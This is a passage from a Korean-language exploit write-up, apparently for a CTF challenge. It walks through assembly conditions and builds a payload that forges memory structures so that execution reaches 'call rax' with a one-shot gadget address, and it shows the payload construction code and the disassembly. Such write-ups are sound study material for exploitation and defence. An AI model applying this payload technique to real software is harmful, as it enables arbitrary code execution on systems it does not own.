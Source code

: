 `r9 < r8` 구문을 `True`로 만들어야 합니다. 먼저 `r8`을 살펴 보면 `[rdi+0x28]`을 갖는데 `rdi`는 `[rax+0x40]`이고 `rax`는 `[rbx]`이기 때문에 우리의 페이로드에서 `[[payload + 0x40] + 0x28]`을 하는 것과 같습니다.

이 부분을 다시 한번 잘 보시면 `cond_1`의 조건 위치 입니다. `cond_1 < 0x70` 신께 기도를 10번 한 뒤, `r9`값을 살펴 본 결과 다행히 `0x70`보다 작았습니다. 그래서 `cond_1`의 위치의 값을 다시 설정합니다.

`r9 < cond_1 < 0x70`

저는 간단히 `0x10`으로 설정했습니다.

```
(assume that payload already had '%13$@ZZZ')
payload = p64(stack_addr) + "A"*8             # rbx = &payload
payload += "B" * 0x10
payload += p64(1)                             # for cond_3 <-- [rbx+0x20]
payload += "B" * 0x18
payload += p64(stack_addr+0x50) + "C"*8
payload += p64(stack_addr+0x50)               # rdx = &payload + 0x50
payload += p64(stack_addr+0x50+0x30)          # [rdx+8] : for cond_2
payload += "E" * 0x10
paylaod += "F" * 8
-> payload += p64(0x10)                       # cond_1 : [rdx+0x28], cond_4
payload += p64(0)                             # *[rdx+8] point here for cond_2
```

자...이제 마지막 루틴 입니다.

```
\-->### 10F14
	  mov     r9, [rdi] 	  	; r9 = [rdi]
	  mov     r10d, edx 	  	; r10d = edx
	  mov     r9, [r9+r10*8] 	; r9 = r9[r10]  ; r10 = 0
	  mov     rax, [r9+rax*8] ; rax = r9[rax] ; rax = 2
	  jmp     10E2B

	  ### 10E2B:
	  test    rax, rax
/---jz      10F90 (FALSE)
|
| (FALSE) rax == 0
|
\-->mov     rd, r14 ; 10E34
  	mov     rdi, rbx
  	call    rax ; [*] That's what I want
```

`call rax`를 해야 하기 때문에 뒤쪽에 있는 `test rax, rax (False)`는 의미가 없습니다. (RAX는 원샷 가젯 주소를 가지고 있기 때문에)

`10F14` 루틴이 `RAX`를 생성하는 중요한 루틴입니다. 살펴 보면 다음과 같습니다.

```
R9  = [RDI + R10*8] = RDI[R10]
RAX = R9[RAX]
```

먼저 `RDI`값은 `cond_4` 루틴에서 `[RBX+0x40]` 즉 `&payload + 0x50`을 가지고 있습니다. 이 루틴에 올때 `R10`은 0 이기 때문에 `R9 = &payload+0x50`을 갖습니다. 그 뒤에 `RAX` 값이 2를 가지고 있기 때문에 결국 `(&payload+0x50)[2]` 를 `RAX`에 넣습니다.
